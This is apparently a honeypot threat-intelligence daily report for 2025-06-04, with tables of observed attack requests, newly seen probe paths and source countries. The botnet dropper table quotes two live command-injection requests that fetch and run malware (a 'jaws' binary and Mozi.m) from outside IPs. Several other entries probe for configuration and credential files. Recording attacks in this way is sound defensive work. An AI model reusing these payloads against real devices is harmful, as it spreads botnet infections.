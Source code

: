 ```yaml
---
title: "Report: 2025-06-04 "
date: 2025-06-04
desciption: "Report: 2025-06-04" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-04 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 39 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1330 requests were recorded during the day, originating from 2 different countries, with a peak of 305 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| US               | Israel             |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                    |
|:--------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 104.236.3.45  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                               |
| 1.70.141.84   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://1.70.141.84:33659/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                    |
|----:|----------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 212 |                     1 | GET /admin/login.asp HTTP/1.1                                                                                                                                                                                                                                                                                                                              |
| 214 |                     1 | GET /odinhttpcall1749065828 HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 215 |                     1 | GET /OdinHttpCall1749065828 HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 216 |                     1 | GET /Odin/http/call1749065828 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 252 |                     1 | GET /odinhttpcall1748998981 HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 253 |                     1 | GET /OdinHttpCall1748998981 HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 254 |                     1 | GET /Odin/http/call1748998981 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 287 |                     1 | \x04\x01\x01\xBB\x00\x00\x00\x01\x00api.ipify.org\x00                                                                                                                                                                                                                                                                                                      |
| 288 |                     1 | CONNECT api.ipify.org:443 HTTP/1.1                                                                                                                                                                                                                                                                                                                         |
| 313 |                     1 | GET /8dhX HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
| 314 |                     1 | GET /6z6w HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
| 329 |                     1 | GET /db.yml HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
| 330 |                     1 | GET /db.yaml HTTP/1.1                                                                                                                                                                                                                                                                                                                                      |
| 331 |                     1 | GET /db.config HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
| 332 |                     1 | GET /dbconfig.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                 |
| 341 |                     1 | GET /docker-compose.yaml HTTP/1.1                                                                                                                                                                                                                                                                                                                          |
| 342 |                     1 | GET /docker-compose.dev.yml HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 349 |                     1 | GET /serverless.yaml HTTP/1.1                                                                                                                                                                                                                                                                                                                              |
| 350 |                     1 | GET /serverless.json HTTP/1.1                                                                                                                                                                                                                                                                                                                              |
| 360 |                     1 | GET /config/settings.yml HTTP/1.1                                                                                                                                                                                                                                                                                                                          |
| 388 |                     1 | GET /system_info.php HTTP/1.1                                                                                                                                                                                                                                                                                                                              |
| 390 |                     1 | GET /swagger.yaml HTTP/1.1                                                                                                                                                                                                                                                                                                                                 |
| 391 |                     1 | GET /swagger.yml HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 393 |                     1 | GET /api/swagger.yaml HTTP/1.1                                                                                                                                                                                                                                                                                                                             |
| 394 |                     1 | GET /api/swagger.yml HTTP/1.1                                                                                                                                                                                                                                                                                                                              |
| 395 |                     1 | GET /api/v1/swagger.json HTTP/1.1                                                                                                                                                                                                                                                                                                                          |
| 396 |                     1 | GET /api/v2/swagger.json HTTP/1.1                                                                                                                                                                                                                                                                                                                          |
| 397 |                     1 | GET /api/documentation.json HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 411 |                     1 | GET /vue.config.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                |
| 413 |                     1 | GET /webpack.dev.js HTTP/1.1                                                                                                                                                                                                                                                                                                                               |
| 414 |                     1 | GET /webpack.prod.js HTTP/1.1                                                                                                                                                                                                                                                                                                                              |
| 418 |                     1 | GET /angular-cli.json HTTP/1.1                                                                                                                                                                                                                                                                                                                             |
| 426 |                     1 | GET /LlCa HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
| 427 |                     1 | GET /OmXI HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
| 436 |                     1 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\xF6~\xF7\x7F\x00\x00\xB0\xF8\xF1s\xCF\x00\x00\x00\xE0\x81\x1B\x7F\xF7\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01       |
| 442 |                     1 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\x8A\xBD\xF7\x7F\x00\x00\x90\xF6\x85\xAA\xAE\x00\x00\x00\xE0\x81\xAF\xBD\xF7\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01 |
| 445 |                     1 | GET /odinhttpcall1749060061 HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 446 |                     1 | GET /OdinHttpCall1749060061 HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 447 |                     1 | GET /Odin/http/call1749060061 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   305 | US                 |
|  1 |                   219 | BG                 |
|  2 |                   130 | DE                 |
|  3 |                    96 | CN                 |
|  4 |                    94 | GB                 |
|  5 |                    61 | JP                 |
|  6 |                    54 | CA                 |
|  7 |                    49 | IN                 |
|  8 |                    48 | HK                 |
|  9 |                    39 | NL                 |
| 10 |                    32 | NG                 |
| 11 |                    24 | PL                 |
| 12 |                    24 | SA                 |
| 13 |                    17 | SC                 |
| 14 |                    15 | PT                 |
| 15 |                    15 | CH                 |
| 16 |                    15 | FR                 |
| 17 |                    12 | AR                 |
| 18 |                     9 | GH                 |
| 19 |                     7 | IL                 |
| 20 |                     5 | TR                 |
| 21 |                     5 | RU                 |
| 22 |                     5 | UA                 |
| 23 |                     5 | BE                 |
| 24 |                     5 | AO                 |
| 25 |                     4 | ZA                 |
| 26 |                     4 | ID                 |
| 27 |                     3 | KR                 |
| 28 |                     3 | IT                 |
| 29 |                     3 | KZ                 |
| 30 |                     3 | SG                 |
| 31 |                     2 | RO                 |
| 32 |                     2 | VN                 |
| 33 |                     2 | TW                 |
| 34 |                     2 | BR                 |
| 35 |                     2 | IE                 |
| 36 |                     2 | CO                 |
| 37 |                     2 | HR                 |
| 38 |                     1 | MC                 |
| 39 |                     1 | IR                 |
| 40 |                     1 | ES                 |
| 41 |                     1 | QA                 |
| 42 |                     1 | SE                 |
| 43 |                     1 | CZ                 |
